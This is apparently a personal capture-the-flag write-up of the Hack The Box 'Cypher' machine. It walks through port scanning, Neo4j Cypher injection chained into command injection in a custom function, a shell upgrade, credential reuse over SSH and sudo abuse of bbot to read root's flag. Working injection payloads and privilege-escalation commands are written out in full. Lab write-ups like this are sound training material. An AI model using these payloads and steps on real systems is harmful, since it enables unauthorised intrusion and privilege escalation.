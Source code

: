 ```yaml
---
title: "Cypher -HTB"
date: 2025-04-19 14:00:00 +0200
categories: [HTB]
tags: [linux, privilege escalation, initial access, cypher]
toc: true
comments: true
image: ./assets/img/attachements/cypher1.png
---
```



> 🧠 It's the beginning of the journey.

This is **Machine 1 of 1000** — part of my mission to become a stronger red teamer by solving and documenting every challenge I encounter.

In this writeup, I’ll walk you through how I rooted the **Cypher** machine from Hack The Box, explaining each step from enumeration to exploitation.
### Full port scanning
The first step is to perform a full scan using Nmap to identify open ports and services. However, since a full scan can take a long time, we can start by using the `-F` flag to scan the 1,000 most common ports. Until the full scan finishes.
``` shell
sudo nmap 10.10.11.57 -F -Pn -T5 -sV 
```
![Whatever Alt Text You Want](/assets/img/attachements/cypher2.png)

from here we get that http post is open, so next step is to check this website. BUT accessing the ip from browser alone wont work, since the ip must be added to /etc/hosts

![Whatever Alt Text You Want](/assets/img/attachements/cypher3.png)

Now that we got the domain name, lets add it to /etc/hosts

![Whatever Alt Text You Want](/assets/img/attachements/cypher4.png)
![Whatever Alt Text You Want](/assets/img/attachements/cypher5.png)

This is how the webpage looked like, next step is content discovery for this domain, and until the fuzzing process is done i will test SQLi at this login form.
```shell
ffuf -u http://cypher.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 2
```
![Whatever Alt Text You Want](/assets/img/attachements/cypher6.png)

I got this error which disclose that the database used is Neoj4, and a critical information, that the username is directly added to the cypher query without validations.

![Whatever Alt Text You Want](/assets/img/attachements/cypher7.png)

And fuzzing result shows this directory, so lets check what does it contains

![Whatever Alt Text You Want](/assets/img/attachements/cypher8.png)

Which look interesting, after downloading this jar file and extracted its content

![Whatever Alt Text You Want](/assets/img/attachements/cypher9.png)

found those classes and the suspicious one is CustomFunction

![Whatever Alt Text You Want](/assets/img/attachements/cypher10.png)

Since its compiled file and not human readable, I will use online decompiler to make it readable.

![Whatever Alt Text You Want](/assets/img/attachements/cypher11.png)

Here we can see the vulnerable point, where the url is inserted into the curl command without sanitization or validation beyond checking for http:// or https:// prefixes.

![Whatever Alt Text You Want](/assets/img/attachements/cypher12.png)

Exploiting this vulnerability in url didn't work 
### From this point we have two methods to gain the initial access:
**Method one**:

from the point that the username is inserted directly to the cypher query, we can create custom query, that ends the username field and call the vulnerable function getURLStatusCode
`"username":"') CALL getUrlStatusCode('http://127.0.0.1;whoami') // '"`

![Whatever Alt Text You Want](/assets/img/attachements/cypher13.png)
![Whatever Alt Text You Want](/assets/img/attachements/cypher14.png)

its important here to keep in mind the response time.

![Whatever Alt Text You Want](/assets/img/attachements/cypher15.png)

which proves the blind command injection vulnerability here.
```json
{"username": "admin' RETURN h.value AS value UNION CALL custom.getUrlStatusCode('127.0.0.1;sleep 10') YIELD statusCode AS value RETURN value; //",

"password":"admin"}
```
Now, its time to create the reverse shell payload, and setting a listener at the same time

![Whatever Alt Text You Want](/assets/img/attachements/cypher16.png)

whow!! Worked!

![Whatever Alt Text You Want](/assets/img/attachements/cypher17.png)

and we got our initial access

**Method 2**:

![Whatever Alt Text You Want](/assets/img/attachements/cypher18.png)

Taking the machine as hint, we find that the endpoint /cypher is exposed, and as showen in the image, there is a missing parameter for it called query, so would query work as our vulnerable point?

![Whatever Alt Text You Want](/assets/img/attachements/cypher19.png)

lets craft the payload passed on cypher syntax

![Whatever Alt Text You Want](/assets/img/attachements/cypher20.png)

This is the indication that this is an injectable parameter for us, next step is to exploit it using the vulnerable class mentioned before.

`/api/cypher?query=CALL%20custom.getUrlStatusCode('http://127.0.0.1;id')`

![Whatever Alt Text You Want](/assets/img/attachements/cypher21.png)

And done! back to the initial access part:
To make the shell mor usable and interactive

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

![Whatever Alt Text You Want](/assets/img/attachements/cypher22.png)

Here we find a saved credentials at this file so lets do password spraying here!

![Whatever Alt Text You Want](/assets/img/attachements/cypher23.png)

Using the found password we gained access using ssh as graphasm user.

## Privilege Escalation
![Whatever Alt Text You Want](/assets/img/attachements/cypher24.png)

This user has a root privilage on bbot, which is a tool as we see

![Whatever Alt Text You Want](/assets/img/attachements/cypher25.png)

Next step is either to use it to execute different commands, or to read the root.txt file with it

`sudo /usr/local/bin/bbot -cy /root/root.txt --debug 2>&1 | tee output.log
`
![Whatever Alt Text You Want](/assets/img/attachements/cypher26.png)

We were able to read the root content file using yara rules, and ROOTED!!

